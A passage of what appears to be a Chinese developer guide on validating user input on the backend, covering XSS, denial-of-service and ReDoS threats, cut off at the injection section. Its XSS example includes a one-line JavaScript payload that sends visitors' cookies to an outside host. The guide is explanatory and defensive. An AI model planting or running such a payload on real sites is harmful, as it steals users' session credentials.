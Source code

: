 
---



### 【输入】有效验证用户输入参数 / 拒绝非法输入参数

互联网在线服务的实现方式大多是接收用户 **输入=>处理=>输出** 的过程。在输入这一环节，**后端**应用必须对参数进行有效性验证，否则可能存在如下威胁：

* XSS攻击
* 各种拒绝服务攻击（DOS）
* 各种注入攻击
* CSRF
* 资源盗链
* 垃圾信息

> 有同学问：我已经在web前端验证过输入参数了，还有必要在后端再验证吗？
>
> 答案是：很有必要。因为攻击者可能通过curl等工具绕过前端验证，直接调用API，此时前端验证形同虚设。



我先简单介绍一下上述几种威胁的概念：

#### 1. XSS（Cross Site Script）攻击 

指攻击者通过表单提交HTML页面可执行的脚本代码或脚本的链接。这些内容被保存在网站数据库中。当这些脚本被渲染到其它用户的HTML页面中时会被执行，达到一些非预期的不良后果。



**案例1**：我在逛某论坛时，发个帖子，内容为：

``` javascript
new Image().src="http://xiaokaiqun.com/getcookie?cookie="+encodeURIComponent(document.cookie);
```

当其它用户打开帖子时，他的cookie信息就被发到我的服务器了。

> 常见的XSS手段：[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) 



#### 2. 拒绝服务（Denial of Service）攻击

指攻击者通过手段消耗系统资源，使真实用户无法正常使用服务的攻击。

> 这里要提一句DDOS攻击：DDOS是分布式的DOS攻击，指用多台机器分布式地对一个网站发起攻击。常见手段是基于TCP SYN FLOOD或 IP RST两种方式。
>
> 公司历史上曾经受到过基于TCP SYN FLOOD的DDOS攻击，这种攻击会向服务器发送大量没用的TCP握手请求，占满服务器的TCP缓冲区，导致正常用户无法建立连接。
>
> 这种攻击的防御手段不在本次的讨论范围之内，回头可能会单独写一篇东西讲述。

DOS具体又包括：

* 不合适的参数值造成数据库查询耗费过多的资源（page size、order by）
* [正则输入源reDos](https://msdn.microsoft.com/zh-cn/magazine/ff646973.aspx)
* 传入过多、过长的垃圾内容占满磁盘空间



#### 3. 注入攻击
